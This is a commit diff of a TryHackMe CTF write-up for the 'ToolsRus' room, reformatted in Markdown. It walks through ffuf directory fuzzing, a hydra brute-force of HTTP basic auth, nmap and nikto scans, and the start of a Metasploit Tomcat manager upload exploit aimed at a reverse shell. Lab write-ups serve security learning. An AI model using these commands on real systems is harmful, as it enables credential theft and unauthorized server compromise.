

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/ToolsRus/ToolsRus.md, the part around the change printed below. Shown: that part at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Easy/ToolsRus/ToolsRus.md
+++ b/Easy/ToolsRus/ToolsRus.md
@@ -1,29 +1,61 @@
-1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used ffuf instead, due to its its simplicity and efficiency [ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html]. This gives the very first directory [guidelines].
+# ToolsRus
 
-2. Open this directory in the browser [http://<IP_ADDRESS>/guidelines]. This will give some content in which the name is given as [bob].
+## Challenge Information
+- **Challenge Name**: ToolsRus
+- **Category**: Web Exploitation
+- **Difficulty Level**: Easy
 
-3. When we did the directory traversal, we found another directory [/protected]. This is the answer for this.
+## Initial Enumeration
 
-4. When we visit this directory, it asks for authentication. The username is obviously [bob]. Now we have to find the password. So lets use hydra now: [hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/]. This will give us the password [bubbles].
+1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used `ffuf` instead, due to its its simplicity and efficiency:
+```bash
+ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html
+```
+This gives the very first directory `guidelines`.
 
-5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap: [nmap -sV -p 1234 <IP_ADDRESS>]. This will give the currently open port [1234].
+2. Open this directory in the browser `http://<IP_ADDRESS>/guidelines`. This will give some content in which the name is given as `bob`.
 
-6. Visit the port: [http://<IP_ADDRESS>:1234/]. It will take to a new webpage where the information of the server can be found: [Apache Tomcat/7.0.88].
+3. When we did the directory traversal, we found another directory `/protected`. This is the answer for this.
 
-7. Now as istructed, lets run the command [nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles] for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: [5].
+4. When we visit this directory, it asks for authentication. The username is obviously `bob`. Now we have to find the password. So lets use hydra now:
+```bash
+hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/
+```
+This will give us the password `bubbles`.
 
-8. If we run a simple nmap command: [nmap <IP_ADDRESS>]. It will give some open ports. There will be a port [80] for http. Scan this port: [nmap -sV -p 80 <IP_ADDRESS>]. This will give the version of the server [Apache/2.4.18].
+5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap:
+```bash
+nmap -sV -p 1234 <IP_ADDRESS>
+```
+This will give the currently open port `1234`.
 
-9. The version of the [Apache-Coyote] can be seen in the start of the result when we ran the nikto command: [1.1].
+6. Visit the port: `http://<IP_ADDRESS>:1234/`. It will take to a new webpage where the information of the server can be found: `Apache Tomcat/7.0.88`.
 
+7. Now as istructed, lets run the command:
+```bash
+nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles
+```
+for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: `5`.
 
-Now our task is to run the metasploit and exploit the service and get the shell of the server. We can also do this all manually rather than using metasploit. However, I'll guide both the ways.
+8. If we run a simple nmap command:
+```bash
+nmap <IP_ADDRESS>
+```
+It will give some open ports. There will be a port `80` for http. Scan this port:
+```bash
+nmap -sV -p 80 <IP_ADDRESS>
+```
+This will give the version of the server `Apache/2.4.18`.
 
-# Method-1 (Using Metasploit)
--> open the metasploit console using the command [msfconsole].
--> run the command [search type:exploit tomcat] to search for the exploits of tomcat.
--> using the command [use exploit/multi/http/tomcat_mgr_upload], select the exploit [exploit/multi/http/tomcat_mgr_upload] since we are dealing with the uploading of a script to get the reverse shell.
--> use command [show options] to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
+9. The version of the `Apache-Coyote` can be seen in the start of the result when we ran the nikto command: `1.1`.
+
+## Exploitation Methods
+
+### Method 1 - Using Metasploit
+-> open the metasploit console using the command `msfconsole`.
+-> run the command `search type:exploit tomcat` to search for the exploits of tomcat.
+-> using the command `use exploit/multi/http/tomcat_mgr_upload`, select the exploit `exploit/multi/http/tomcat_mgr_upload` since we are dealing with the uploading of a script to get the reverse shell.
+-> use command `show options` to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
 1. set target 0
 2. set httppassword bubbles
 3. set httpusername bob
````
Also changed, not shown: other parts of Easy/ToolsRus/ToolsRus.md (+7 -6 lines).
